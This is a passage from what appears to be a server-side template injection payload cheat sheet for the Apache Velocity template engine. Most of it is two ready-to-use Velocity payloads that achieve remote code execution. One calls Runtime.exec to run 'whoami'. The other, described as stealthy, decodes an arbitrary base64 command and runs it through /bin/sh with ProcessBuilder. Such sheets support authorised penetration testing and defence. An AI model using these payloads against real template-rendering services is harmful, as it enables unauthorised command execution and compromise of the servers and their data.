 
---

## Velocity

[Official website](https://velocity.apache.org/engine/1.7/user-guide.html)

> Apache Velocity is a Java-based template engine that allows web designers to embed Java code references directly within templates.

In a vulnerable environment, Velocity's expression language can be abused to achieve remote code execution (RCE). For example, this payload executes the whoami command and prints the result:
```java
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

A more flexible and stealthy payload that supports base64-encoded commands, allowing execution of arbitrary shell commands such as `echo "a" > /tmp/a`. Below is an example with `whoami` in base64:
```java
#set($base64 = 'd2hvYW1p')
#set($c = $CUSTOMER_CIVILITY.getClass())
#set($Base64 = $c.forName("java.util.Base64"))
#set($Decoder = $Base64.getMethod("getDecoder").invoke(null))
#set($bytes = $Decoder.decode("$base64"))

#set($StringCl = $c.forName("java.lang.String"))
#set($cmd = $StringCl.getConstructor($c.forName("[B"), $c.forName("java.lang.String")).newInstance($bytes, "UTF-8"))

#set($params = ["/bin/sh", "-c", $cmd])
#set($pbCl = $c.forName("java.lang.ProcessBuilder"))
#set($pb = $pbCl.getConstructor($c.forName("java.util.List")).newInstance($params))
#set($pb = $pb.redirectErrorStream(true))
#set($p = $pb.start())
#set($exit = $p.waitFor())

#set($is = $p.getInputStream())
#set($sc = $c.forName("java.util.Scanner"))
#set($s = $sc.getConstructor($c.forName("java.io.InputStream")).newInstance($is))
#set($sDelimiter = $s.useDelimiter("\\A"))
#if($s.hasNext())
#set($out = $s.next().trim())
$out.replaceAll("\\s+$", "").replaceAll("^\\s+", "")
#end
```
---

